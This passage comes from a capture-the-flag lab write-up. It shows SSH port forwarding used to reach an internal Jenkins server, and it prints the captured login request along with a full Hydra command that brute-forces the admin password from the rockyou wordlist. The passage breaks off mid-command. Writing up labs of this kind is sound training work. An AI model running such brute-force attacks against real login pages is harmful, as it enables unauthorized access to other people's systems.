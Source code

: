 * SSH into box

     ```bash
     ssh aubreanna@10.10.109.3
     ```

     ![img](https://i.imgur.com/QY6KMmb.png)

---

## Root

* we do have a `jenkins.txt` in ~/user dir. let's read that!
* it reveals there is a jenkins server running on internal IP:port

* SSH again with `PORT` forwarding to our machine, in order to access the `jenkins` service.

  ![img](https://i.imgur.com/7VuFIMR.png)

* We can then visit the Jenkins server web page by visiting 127.0.0.1:8080
  
  ![img](https://i.imgur.com/aA8nuXg.png)

* tried found creds, but no luck! 😭 the ROOM Developer loves `bruteforce` I guess.

* Bruteforcing `jenkins`

     ```bash
     # POST DATA:

     POST /j_acegi_security_check HTTP/1.1
     Host: 127.0.0.1:8080
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 54
     Origin: http://127.0.0.1:8080
     Connection: close
     Referer: http://127.0.0.1:8080/loginError
     Cookie: JSESSIONID.851f9285=node0c86ow5ll7bfx1kor9ova06bxn0.node0
     Upgrade-Insecure-Requests: 1

     j_username=admin&j_password=er&from=%2F&Submit=Sign+in 
     ```

* Hydra payload

     ```bash
     hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
